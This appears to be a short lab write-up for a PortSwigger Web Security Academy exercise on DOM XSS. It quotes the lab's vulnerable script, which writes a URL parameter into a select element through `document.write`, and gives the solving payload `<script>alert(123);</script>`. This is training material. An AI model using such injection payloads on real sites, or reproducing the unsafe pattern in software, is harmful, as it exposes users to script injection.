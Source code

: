 ```yaml
---
title: 'Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XSS"
---
```


# Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element. 
* Goal: To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function. 

## Recon
1. Find the injection place
I used string search to find `location.search` in each sub-page source.
Here is the interesting code:
    :::spoiler Source Code
    ```javascript!
    ...
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
    ...
    ```
    :::
2. Try type something about `storeID` as URL GET parameter
Payload: `/product?productId=1&storeId=abc`
![](https://i.imgur.com/KKbTF8f.png)
You can see that this is a perfect injection place


## Exp
Payload: `/product?productId=1&storeId=<script>alert(123);</script>`
:::spoiler Success Screenshot
![](https://i.imgur.com/bjEoUzh.png)
:::

## Reference